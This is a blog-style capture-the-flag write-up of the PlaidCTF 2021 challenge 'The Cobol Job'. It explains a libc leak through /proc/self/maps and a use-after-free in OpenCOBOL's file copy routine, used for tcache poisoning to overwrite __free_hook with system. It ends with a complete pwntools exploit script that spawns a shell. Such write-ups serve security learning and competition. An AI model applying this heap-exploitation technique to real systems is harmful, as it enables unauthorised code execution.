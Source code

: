 ```yaml
---
layout: post
title: PlaidCTF 2021: The Cobol Job
---
```

Even though I was going through some post-quarter-end burnout, I managed to join DiceGang for a bit during PlaidCTF 2021. We ended up getting 2nd, 1 place short of pre-qualifying for DEFCONCTF 2021 Finals :(

## The Cobol Job
We are given a cobol file:
```
-----------------------
1 - Create file
2 - Open file
3 - Read file
4 - Write file
5 - Close file
6 - Copy file
7 - Exit
>
```

We can leak all the addresses including the base of libc by copying `/proc/self/maps` to a file we create, and then reading it.

I spent a long time learning too much cobol than anyone ever should.
Basically, the sizes, file descriptors, and heap pointers to a file's contents are stored in arrays. Ultimately nothing in the implementation would lead to a heap memory corruption.

However, a bug exists in the open cobol implementation of [`CBL_COPY_FILE`](https://github.com/ayumin/open-cobol/blob/72578e8fe3f13257ae5fb2b306aed112fbf7c3c4/libcob/fileio.c#L4751-L4768), which is used in the copy file function. My teammate panda found this but his internet cut out so I implemented it.

`fn1` is freed, and then written to shortly after. `fn1` just happens to be a 0x20 sized tcache chunk. Because this is Ubuntu 18.04, there is no pointer mangling so poisoning the tcache is very easy.

Using our libc leak from prior, simply copy a file whose content is the address of `__free_hook` into a dummy file whose size will fit into tcache idx 0, such as 0x18.

Create two more 0x18-sized files to set up the write into `__free_hook`. I wrote `/bin/sh` to one of these files because I planned to free them to get a shell later on.

Allocate one more 0x18-sized file. This file's buffer is pointing to `__free_hook`. Write the address of `system` to it.
- The write function first reads our input onto the heap, then writes the input from the heap into the file. So, `__free_hook` is now pointing to `system`.

From there we close a file whose content is `/bin/sh` to trigger the `__free_hook`, getting us a shell.

```python
from pwn import *

e = ELF("./chall")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

p = process([e.path])
p = remote("cobol.pwni.ng", 3083)
context.terminal = ['tmux', 'splitw', '-h']
context.log_level="debug"


p.sendlineafter(">", "6")
p.sendlineafter(":", "/proc/self/maps")
p.sendlineafter(":", "/tmp/leek")

p.sendlineafter(">", "2")
p.sendlineafter(":", "/tmp/leek")
p.sendlineafter(":", "1")
p.sendlineafter(":", "10000")

p.sendlineafter(">", "3")
p.sendlineafter(":", "1")

d = p.recvuntil("Exit").splitlines()


for i in d:
    if "libc" in i:
        libc.address = int(i[:12], 16)
        break


print("libc", hex(libc.address))
print("fh", hex(libc.sym["__free_hook"]))


p.sendlineafter(">", "1")
p.sendlineafter(":", "bruh")
p.sendlineafter(":", "2")
p.sendlineafter(":", "24")

p.sendlineafter(">", "4")
p.sendlineafter(":", "2")
p.sendafter(":", p64(libc.sym["__free_hook"])+"\xe8")
p.sendline()


p.sendlineafter(">", "6")
p.sendlineafter(":", "bruh")
p.sendlineafter(":", "/tmp/sice")


p.sendlineafter(">", "1")
p.sendlineafter(":", "bruhaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbb")
p.sendlineafter(":", "3")
p.sendlineafter(":", "24")

p.sendlineafter(">", "4")
p.sendlineafter(":", "3")
p.sendlineafter(":", "/bin/sh")
p.sendline()


p.sendlineafter(">", "1")
p.sendlineafter(":", "bruhaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbb")
p.sendlineafter(":", "5")
p.sendlineafter(":", "24")


p.sendlineafter(">", "1")
p.sendlineafter(":", "bruhaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbb")
p.sendlineafter(":", "4")
p.sendlineafter(":", "24")

p.sendlineafter(">", "4")
p.sendlineafter(":", "4")
p.sendlineafter(":", p64(libc.sym["system"]))
p.sendline()


p.sendlineafter(">", "5")
p.sendlineafter(":", "3")
print("fh", hex(libc.sym["__free_hook"]))

gdb.attach(p)

p.interactive()
```

Flag: `PCTF{l3arning_n3w_languag3_sh0uld_start_with_g00d_bugs_99d4ec917d097f63107e}`
